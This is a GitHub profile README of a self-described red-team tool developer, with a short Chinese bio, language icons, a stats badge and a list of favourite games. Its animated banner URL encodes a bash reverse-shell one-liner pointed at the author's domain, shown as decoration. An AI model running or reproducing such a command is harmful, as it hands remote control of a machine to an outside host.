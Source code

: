 ## 😸 Welcome To My GitHub !
[![Typing SVG](https://readme-typing-svg.demolab.com?font=&pause=1000&color=00FF00&background=000000&vCenter=true&random=false&width=435&lines=%E2%AC%9B%3E+bash+-i+%3E&+/dev/tcp/hackercalico.github.io/443+0%3E&1)](https://git.io/typing-svg)
## :octocat: About Me
我是 Calico，一只专注于 Red Team 武器化的 Cyber Cat。  
我喜欢尝试新事物、思考创新点，开发一些非常酷的黑客工具！

<p>
  <img src="https://github.com/devicons/devicon/blob/master/icons/bash/bash-original.svg" title="bash" alt="bash" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/c/c-original.svg" title="c" alt="c" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/cplusplus/cplusplus-original.svg" title="cplusplus" alt="cplusplus" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/csharp/csharp-original.svg" title="csharp" alt="csharp" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/go/go-original.svg" title="go" alt="go" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/python/python-original.svg" title="python" alt="python" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/java/java-original.svg" title="java" alt="java" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/php/php-original.svg" title="php" alt="php" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/raspberrypi/raspberrypi-original.svg" title="raspberrypi" alt="raspberrypi" width="50" height="50"/>
</p>

![Anurag's GitHub stats](https://github-readme-stats.vercel.app/api?username=HackerCalico&show_icons=true&theme=transparent)
<img src="https://raw.githubusercontent.com/HackerCalico/Blog-Resource/main/2.gif" alt="GIF" align="linuxQ" width="170"/>
## 💛 My Favorite
Minecraft、Hollow Knight、Spore  
NO GAME NO LIFE、呪術廻戦、無職転生
